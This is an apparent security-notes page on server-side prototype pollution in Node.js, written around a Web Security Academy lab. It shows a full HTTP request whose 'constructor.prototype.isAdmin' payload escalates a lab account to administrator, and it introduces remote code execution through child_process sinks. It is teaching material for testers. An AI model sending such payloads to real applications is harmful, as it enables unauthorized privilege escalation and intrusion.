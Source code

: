 JavaScript was originally a client-side language designed to run in browsers. However, due to the emergence of server-side runtimes, such as the hugely popular Node.js, JavaScript is now widely used to build servers, APIs, and other back-end applications. Logically, this means that it's also possible for prototype pollution vulnerabilities to arise in server-side contexts.

## Bypassing input filters for server-side prototype pollution

- [Bypassing flawed key sanitization](Prototype%20Pollution%20client-side.md#Bypassing%20flawed%20key%20sanitization)
- [Prototype pollution via the constructor](Prototype%20Pollution%20client-side.md#Prototype%20pollution%20via%20the%20constructor)
- [Evading Restrictions](Evading%20Restrictions.md)

Example:
```json
{"username":"wiener","firstname":"Peter","lastname":"Wiener","isAdmin":false}
```

Privilege escalation exploiting prototype pollution in the constructor:
```http
POST /my-account/change-address HTTP/2
Host: 0ac4001d046684bf8131bbcc00e80083.web-security-academy.net

{
	"address_line_1":"Wiener HQ",
	"address_line_2":"One Wiener Way",
	"city":"Wienerville",
	"postcode":"BU1 1RP",
	"country":"UK",
	"sessionId":"M2C782KPkHX8wuvZZSgY3JNKs7AQbIlP",
	"constructor":{
		"prototype":{
			"isAdmin":true
		}
	}
}

---

HTTP/2 200 OK

{"username":"wiener","firstname":"Peter","lastname":"Wiener","isAdmin":true}
```

## Remote code execution via server-side prototype pollution

There are a number of potential command execution sinks in Node, many of which occur in the `child_process` module.
These are often invoked by a request that occurs asynchronously to the request with which you're able to pollute the prototype in the first place. As a result, the best way to identify these requests is by polluting the prototype with a payload that triggers an interaction with Burp Collaborator when called.
